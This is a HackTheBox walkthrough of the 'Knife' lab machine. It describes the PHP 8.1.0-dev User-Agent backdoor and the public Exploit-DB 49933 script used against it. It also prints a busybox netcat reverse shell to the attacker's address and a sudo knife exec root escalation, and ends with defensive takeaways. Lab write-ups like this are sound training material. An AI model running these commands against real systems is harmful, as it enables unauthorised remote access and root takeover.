


# Knife — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Linux

---

## TL;DR

Wappalyzer identifies PHP 8.1.0-dev running on the web server → Exploiting the PHP 8.1.0-dev backdoor (User-Agent header RCE) yields an initial shell → `sudo -l` reveals `knife` can be executed as root without a password → Abusing `knife exec` via GTFOBins drops us into a root shell.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn 10.10.10.242
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.2p1 Ubuntu |
| 80 | HTTP | Apache httpd 2.4.41 (Ubuntu) |

Initial directory brute-forcing with Gobuster on port 80 reveals nothing of interest, and DNS subdomain enumeration on `knife.htb` also returns empty.

However, examining the technology stack of the website on port 80 using the wappalyzer browser extension reveals a very specific version of PHP running: **PHP 8.1.0-dev**.



---

## Exploitation — PHP 8.1.0-dev Backdoor 

Researching vulnerabilities for `PHP 8.1.0-dev` immediately points to a infamous supply chain attack. In early 2021, two malicious commits were pushed to the official PHP Git repository, introducing a backdoor.

If the HTTP header `User-Agent` starts with the exact string `zerodiumsystem`, whatever follows in the header is blindly executed as a system command by the PHP engine.

We can use a public Python exploit (Exploit-DB 49933) to automate this:
- `https://www.exploit-db.com/exploits/49933`

```bash
python3 49933.py
```

Entering the target URL (`http://10.10.10.242`) drops us into a pseudo-shell leveraging the backdoor. From here, we can establish a stable reverse shell back to our attacking machine using `busybox`:

```bash
busybox nc 10.10.14.32 6969 -e /bin/sh
```

We catch the shell on our Netcat listener. 
We now have user access as `james`.

---

## Privilege Escalation — GTFOBins (knife)

Once on the system, the first step for local enumeration on a Linux box is checking what commands our user can run with elevated privileges via `sudo`:

```bash
sudo -l
```



The output reveals that the user `james` can run the `/usr/bin/knife` binary as `root` without providing a password.

`knife` is a command-line tool that provides an interface between a local chef-repo and the Chef Infra Server. Consulting [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) for this specific binary, we find that `knife` has a built-in `exec` command that runs Ruby scripts. 

Since `sudo` executes the command contextually as root, we can instruct `knife` to execute a shell natively via Ruby:

```bash
sudo knife exec -E 'exec "/bin/sh"'
```

This instantly drops us into a shell with root permissions.

We are `root`. 🎉

---

## Key Takeaways

- **Supply Chain Attacks:** The PHP 8.1.0-dev backdoor is a prime example of why robust code review and commit signing are essential for massive open-source projects.
- **Sudo Misconfigurations:** Allowing full unrestricted `sudo` access to powerful binaries like `knife` (which can execute arbitrary code) completely defeats the purpose of the permission model. Access should be restricted to specific flags or explicit scripts.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*